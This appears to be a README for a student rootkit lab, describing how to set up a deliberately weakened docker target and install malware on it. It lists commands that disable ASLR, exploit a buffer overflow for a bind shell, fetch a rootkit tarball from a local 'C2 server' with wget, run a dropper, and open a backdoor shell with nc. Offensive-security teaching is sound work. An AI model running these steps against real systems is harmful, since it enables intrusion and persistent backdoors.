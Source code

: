 # Rootkit Project

## Project Layout

`rootkit/` - contains source code for malicious rootkit library 
`dropper/` - contains vulnerable target program and payload delivery code
`target/` - contains code for testing/target environment (will eventually be run on target server)

## Purpose

This readme details the process for setting up your test environment, and installing your malware using an exploit script.

In order to do install, you will run an exploit script which will exploit a buffer overflow in the target process.
This will open up a temporary bind shell into the process which you can use to install your rootkit onto the system.

This will give you a more permenant backdoor, and also allow you to use all of your features in the coming weeks, as you
add more.

## Test Target Environment Setup

Perform all these steps in the vm in the **target/ directory**

1. install docker

```sh
curl -fsSL https://get.docker.com -o get-docker.sh
sh get-docker.sh
```

2. disable ssh

```sh
sudo systemctl stop sshd
```

3. disable aslr

```sh
sudo echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
4. install and enable apache

```sh
sudo apt install apache2
```

5. run docker compose up -d

## Malware Installation Process

Preform these steps in the **dropper/ directory** 

### Set up C2

1. create rootkit tarball
> make sure you compile your rootkit and move the rootkit.so file to the 

```sh
tar -czf rootkit.tz drop.sh rootkit.so
```
 
2. move the rootkit tarball to /var/www/html ("C2 server")

```sh
cp rootkit.tz /var/www/html
```

### Run the exploit 

1. run your exploit, it will hang, let it do so

```sh
py exploit.py
```

2. in a separate terminal connect to localhost:4567 via `nc` (stage 1 bind shell)
3. download and unzip your tarball

```sh
wget http://127.0.0.1/rootkit.tz
tar -xzf rootkit.tz
```

4. install your malware

```sh
chmod +x drop.sh 
./drop.sh (installs your malware)
```

5. ssh into trigger address
```sh
ssh joebruin@localhost
```

6. open bind shell (nc localhost 1234)

```sh
nc localhost 1234
```

7. Hack Away - your malware is running in the docker container
